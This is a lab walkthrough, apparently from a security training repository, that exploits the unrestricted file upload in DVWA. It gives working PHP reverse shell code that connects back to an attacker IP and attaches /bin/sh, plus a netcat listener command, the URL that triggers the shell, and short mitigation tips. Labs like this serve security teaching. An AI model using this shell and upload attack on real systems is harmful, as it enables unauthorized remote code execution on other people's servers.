 ## 🔍 Lab 3: File Upload – Reverse Shell & RCE

### 💼 Scenario
A document submission form accepts uploads without validating MIME type or restricting executable files.

### 🎯 Objective
Upload a PHP reverse shell and gain access to the system.

## 🧪 Steps

### 🔹 Step 1: Write the PHP Reverse Shell Script
1. On your host machine (attacker), create a file named `reverse.php` with this code::

```php
<?php
$ip = 'YOUR-IP'; // Replace with your local IP (not 127.0.0.1)
$port = 4444;
$sock = fsockopen($ip, $port);
$proc = proc_open("/bin/sh", array(0=>$sock, 1=>$sock, 2=>$sock), $pipes);
?>
```
Replace `YOUR-IP` with your actual host IP that the Docker container can reach. If unsure, use `ip addr` or `ifconfig` to find your local IP.

### 🔹 Step 2: Set Up a Netcat Listener
On your host machine, open a terminal and run:

```bash
# This listens for incoming connections on port 4444.
nc -l 4444
```
### 🔹 Step 3: Upload the Reverse Shell in DVWA
1. Upload via DVWA → File Upload.
2. Click Browse and select the `reverse.php` file.
3. Submit the form. DVWA will upload your file.

### 🔹 Step 4: Trigger the Reverse Shell
Now that the file is uploaded, open a browser and visit:

```
http://localhost:4280/hackable/uploads/reverse.php
```
Once accessed, the PHP script executes, and your Netcat listener will catch the shell.

### 🔹 Step 5: Interact with the Shell
Now you're in the container shell! Try:

```bash
whoami
ls /
hostname
```

### 🧠 Real-World Context 
- Why **file uploads must never** be trusted
- Real-world risk of **Remote Code Execution (RCE)**
- How attackers chain simple bugs into **full server compromise**
- This attack is often seen in WordPress plugin exploits or misconfigured upload folders.

### 🛡️ Mitigation

- Disallow dangerous extensions.
- Store uploaded files outside webroot.
- Sanitize and rename files on upload.